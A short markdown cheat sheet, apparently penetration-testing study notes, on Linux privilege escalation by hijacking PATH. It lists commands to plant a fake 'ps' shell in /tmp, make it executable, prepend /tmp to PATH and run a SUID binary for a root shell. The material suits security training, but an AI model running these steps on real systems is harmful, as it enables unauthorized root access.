 ### Linux Privilege Escalation Using PATH Variable

#### View the PATH
```
echo $PATH
```

####case study one
- Binary file with SUID permission
  - check what the file do
  - for example *which linux commad use*
    - in out case we use *ps* command
- Create malicious file
  - echo "/bin/bash" or "/bin/sh" > /tmp/ps
  - chmod 777 /tmp/ps
  - **or**
  - cp /bin/sh /tmp/ps
- check PATH
  - echo $PATH
- change $PATH (add tmp folder)
 - export PATH=/tmp:$PATH
- run SUID binary

